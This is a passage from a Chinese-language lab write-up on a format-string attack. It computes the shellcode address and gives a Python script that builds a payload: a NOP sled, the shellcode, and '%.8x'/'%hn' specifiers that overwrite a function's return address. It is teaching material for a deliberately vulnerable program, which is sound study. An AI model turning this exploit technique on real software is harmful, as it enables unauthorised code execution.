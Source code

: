   打印start，获得`shellcode`的起始位置是：$buf\ addr+1364=0xffffd4a0+1364=0xffffd9f4$

  ![image-20220430135300950](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012318811.png)

- 要把$0xffffd3cc$改成$0xffffd9f4$，数字比较大，像上面task3.c一样分成两步：
  - $0xffff-4-4-4-62\times8=65027$，所以`s = "%.8x"*62 + "%.65027x" + "%hn"`
  - $0x1d9f4-0xffff=55797$，所以`s += "%.55797x" + "%hn"`（利用整数溢出）

具体Payload：

$myprintf高两位的地址+junk(4B)+myprintf低两位的地址+format\ string+NOP*n+shellcode$

```python
N = 1500
# Fill the content with NOP's

content = bytearray(0x90 for i in range(N))

# Choose the shellcode version based on your target

shellcode = shellcode_32

# Put the shellcode somewhere in the payload

start = 1500-len(shellcode)              # Change this number

content[start:start + len(shellcode)] = shellcode
print(start)	# start=1364


############################################################


# This line shows how to store a 4-byte integer at offset 0

number = 0xffffd3cc  # myprintf return address低四位 0xd3c8

content[8:12] = (number).to_bytes(4, byteorder='little')
number2 = number+2  # 高四位 0xffff	

content[0:4] = (number2).to_bytes(4, byteorder='little')

# This line shows how to store a 4-byte string at offset 4

content[4:8] = ("abcd").encode('latin-1')

# This line shows how to construct a string s with 12 of "%.8x", concatenated with a "%n"

s = "%.8x"*62 + "%.65027x" + "%hn"	# 先改成0xffff

s += "%.55797x" + "%hn"	# 再改成0xd


# The line shows how to store the string s at offset 8

fmt = (s).encode('latin-1')
content[12:12+len(fmt)] = fmt
############################################################


# Save the format string to file

with open('badfile', 'wb') as f:
    f.write(content)
```
